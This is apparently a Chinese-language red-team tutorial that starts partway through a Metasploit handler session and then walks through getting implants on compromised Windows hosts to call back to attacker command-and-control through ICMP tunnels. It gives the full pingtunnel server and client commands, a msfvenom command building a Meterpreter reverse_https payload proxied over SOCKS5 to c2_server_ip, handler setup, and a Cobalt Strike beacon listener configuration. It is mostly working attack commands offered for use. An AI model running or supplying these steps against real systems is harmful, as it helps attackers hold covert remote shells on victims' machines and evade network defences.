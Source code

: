 lhost => 0.0.0.0
msf5 exploit(multi/handler) > set lport 7777
lport => 7777
msf5 exploit(multi/handler) > run
[*] Started HTTPS reverse handler on https://0.0.0.0:7777
meterpreter > getuid

icmp隧道转发socks上线metasploit
1.准备好一个具有公网ip的服务器，root权限运行以下命令，启动ICMP隧道服务端
./pingtunnel -type server -noprint 1 -nolog 1
2.ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道
pingtunnel.exe -type client -l 127.0.0.1:6688 -s icmpserver_ip -sock5 1 -nolog 1 -noprint 1
# 该命令的意思是icmp隧道客户端监听127.0.0.1:6688启动socks5服务，通过连接到icmpserver_ip的icmp隧道，由icmpserver转发socks5代理请求到目的地址
3.生成支持socks5代理的反向payload的meterpreter并上传到ICMP隧道客户端执行即可上线
msfvenom -p windows/meterpreter/reverse_https LHOST=c2_server_ip LPORT=8443 HttpProxyType=SOCKS HttpProxyHost=127.0.0.1 HttpProxyPort=6688 -f exe -o meterpreter.exe
4.启动msf监听，等待meterpreter执行上线
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf5 exploit(multi/handler) > set lport 8443
lport => 8443
msf5 exploit(multi/handler) > run
[*] Started HTTPS reverse handler on https://0.0.0.0:8443
meterpreter > getuid

icmp隧道转发tcp上线cobaltstrike
1.准备好一个具有公网ip的服务器，root权限运行以下命令，启动ICMP隧道服务端
./pingtunnel -type server -noprint 1 -nolog 1
2.ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道
pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1
# 该命令的意思是icmp隧道客户端监听127.0.0.1:9999，通过连接到icmpserver_ip的icmp隧道，将127.0.0.1:9999收到的tcp数据包转发到c2_server_ip:7777
3.cobaltstrike创建listener
payload Beacon HTTPS
HTTPS Hosts 127.0.0.1
HTTPS Port C2 9999
HTTPS Port Bind 7777
# https host和https port(c2)为icmp隧道客户端的监听ip和端口
# https port(bind)为转发目的地址的端口
4.生成反向payload的beacon
选上面的listener windows exe
5.上传生成的beacon到ICMP隧道客户端执行，成功通过反向ICMP隧道上线
